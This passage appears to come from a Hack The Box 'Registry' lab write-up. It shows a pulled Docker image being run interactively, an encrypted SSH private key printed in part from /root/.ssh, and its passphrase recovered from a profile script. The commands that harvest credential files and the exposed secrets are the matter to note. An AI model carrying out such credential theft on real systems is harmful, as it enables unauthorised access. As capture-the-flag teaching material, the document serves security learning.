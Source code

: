 ```
Status: Downloaded newer image for docker.registry.htb/bolt-image:latest
```

I'll launch the container in interactive mode so I can look around easily:

```
root@kali:~/htb/registry# docker image list
REPOSITORY                       TAG                 IMAGE ID            CREATED             SIZE
anoxis/registry-cli              latest              c8ecf313a6be        2 months ago        73.6MB
docker.registry.htb/bolt-image   latest              601499e98a60        4 months ago        362MB
root@kali:~/htb/registry# docker run -ti 601499e98a60 /bin/bash
root@4195e2eb99fe:/# 
```

There's an encrypted SSH private key in `/root/.ssh`:

```
root@4195e2eb99fe:~/.ssh# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,1C98FA248505F287CCC597A59CF83AB9

KF9YHXRjDZ35Q9ybzkhcUNKF8DSZ+aNLYXPL3kgdqlUqwfpqpbVdHbMeDk7qbS7w
KhUv4Gj22O1t3koy9z0J0LpVM8NLMgVZhTj1eAlJO72dKBNNv5D4qkIDANmZeAGv
[...]
RLI9xScv6aJan6xHS+nWgxpPA7YNo2rknk/ZeUnWXSTLYyrC43dyPS4FvG8N0H1V
94Vcvj5Kmzv0FxwVu4epWNkLTZCJPBszTKiaEWWS+OLDh7lrcmm+GP54MsLBWVpr
-----END RSA PRIVATE KEY-----
```

There's a profile file containing the SSH password for the private key:

```
root@4195e2eb99fe:/etc/profile.d# ls -l
total 8
-rw-r--r-- 1 root root  96 Aug 20  2018 01-locale-fix.sh
-rwxr-xr-x 1 root root 222 May 25 01:25 01-ssh.sh
root@4195e2eb99fe:/etc/profile.d# cat 01-ssh.sh 
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

Password is: `GkOcz221Ftb3ugog`

There's also a `sync.sh` but it doesn't seem to do anything:

```
root@4195e2eb99fe:/var/www/html# cat sync.sh
#!/bin/bash
rsync -azP registry:/var/www/html/bolt .
```
